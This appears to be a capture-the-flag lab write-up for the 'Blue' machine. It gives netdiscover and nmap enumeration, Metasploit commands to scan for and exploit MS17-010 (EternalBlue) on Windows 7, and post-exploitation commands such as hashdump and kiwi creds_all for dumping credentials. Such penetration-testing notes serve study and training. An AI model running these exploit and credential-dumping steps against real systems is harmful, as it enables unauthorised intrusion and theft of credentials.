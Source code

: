 # Blue

## Enumeration

```
sudo netdiscover -r 10.0.2.0/24

IP -> 10.0.2.6
```

#### NMAP

```
nmap -T4 -p- -A <IP>
```

## Metasploit way

* smb open
* windows 7 Professional 7601 Service Pack 1

This means it was a possibility to be vulnerable to eternal blue 0 smb\_ms17\_010

```bash
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS $IP
run
```

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

* Run eternal blue explit to root the machine

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS $IP
run
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Can try to change the payload to meterpetrer with staged payload

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

## Manual way

[Github Page Link](https://github.com/3ndG4me/AutoBlue-MS17-010)

## Useful commands in windows

### Windows shell

* hashdump
* getuid
* sysinfo
* route print
* arp -a
* netstat -ano
* ps

### Meterpreter

* enter in shell (shell)
* kiwi
  * help
  * creds\_all



